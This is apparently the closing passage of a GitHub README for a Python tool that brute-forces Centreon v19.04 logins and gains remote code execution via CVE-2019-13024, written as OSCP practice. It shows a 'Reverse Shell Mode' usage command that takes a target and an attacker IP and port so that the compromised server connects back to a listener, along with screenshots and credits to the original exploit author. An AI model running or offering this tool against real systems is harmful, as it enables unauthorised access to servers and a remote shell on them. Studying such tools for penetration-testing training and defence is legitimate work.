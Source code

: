 <img src="https://github.com/0xskunk/Centreon-v19.04-Brute-Forcer-RCE/blob/master/images/rce.png" width="600">




#### Reverse Shell Mode

Note: You must start your own listener to connect back to.
```bash
python magic.py -t 10.10.10.10 -p 80 -m 3 -i 192.168.69.1 -l 443
```
<img src="https://github.com/0xskunk/Centreon-v19.04-Brute-Forcer-RCE/blob/master/images/shell.png" width="600">


### License and Credits

Code is open source and I welcome feedback, comments and requests. I wrote this in order to try to improve my usage of classes in Python, and as practice for my OSCP custom exploitation attempts.

Originally, @mhasker wrote and discovered the exploit. I just added a brute forcer, the option to execute alternative commands, and shazam with the colours. I've linked his github below - great work.

[mhasker](https://github.com/mhaskar/CVE-2019-13024)

--------

<img src="https://github.com/0xskunk/Resource-Program-for-Cyber-Students/blob/master/images/0xskunk1.PNG" width="250">

[Logo created with LogoMakr](https://my.logomakr.com/)
